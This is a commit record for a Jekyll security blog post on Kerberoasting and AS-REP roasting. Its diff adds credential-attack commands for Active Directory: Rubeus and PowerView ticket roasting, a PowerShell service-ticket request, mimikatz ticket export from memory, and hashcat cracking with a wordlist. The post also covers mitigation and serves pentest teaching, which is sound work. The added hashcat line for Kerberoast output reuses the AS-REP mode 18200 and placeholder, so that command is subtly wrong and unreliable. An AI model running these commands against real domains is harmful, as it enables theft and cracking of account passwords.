

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 1400 px high, scrolled down 4293 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

`````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -61,7 +61,7 @@
 
 The AS-REP hash can then be fed into hashcat for offline attacks i.e. with brute-force or wordlist attacks.
 
-````hashcat64.exe -m 18200 '$krb5asrep$23$...' -a 0 c:\wordlists\rockyou.txt````
+````hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt````
 
 
 ### Mitigation
@@ -99,21 +99,35 @@
 [Rubeus](https://github.com/GhostPack/Rubeus), [mimikatz](https://github.com/gentilkiwi/mimikatz) or [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to fetch the tickets and extract the hashes for offline cracking.
 
 **Rubeus**
-The following attack will try to roast all users on the current domain leaving us with a crackable format for hashcat:
+The following attack will try to roast all users on the current domain leaving us with hashes in a crackable format for hashcat:
 
 ````Rubeus.exe kerberoast /format:hashcat````
 
 **PowerView**
-Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat
-
-
-t.
-
-With the help of  we can get a list of all user accounts that have a **SPN** set:
+We can get a list of all user accounts that have a **SPN** set:
 
 ````Get-DomainUser -SPN````
 
+Afterwards we can fetch the hashes like so:
+
+````Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat````
+
+**mimikatz**
+mimikatz can be used to extract **STs** from memory. But beforehand you will have to identify **SPNs** and ask for tickets for them.
+Having a look at the PowerView section above we are already able to query the desired **SPNs**.
+Next step is to query for the **ST** which can be done with two lines of powershell:
+
+````
+Add-Type –AssemblyName System.IdentityModel
+New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘<SPN-name>:<SPN-port>’
+````
+
+In order to extract the ticket from memory we use mimikatz:
 ````kerberos::list /export````
+
+**hashcat**
+The output from Rubeus and PowerView can directly be feeded into hashcat:
+````hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt````
 
 
 
`````
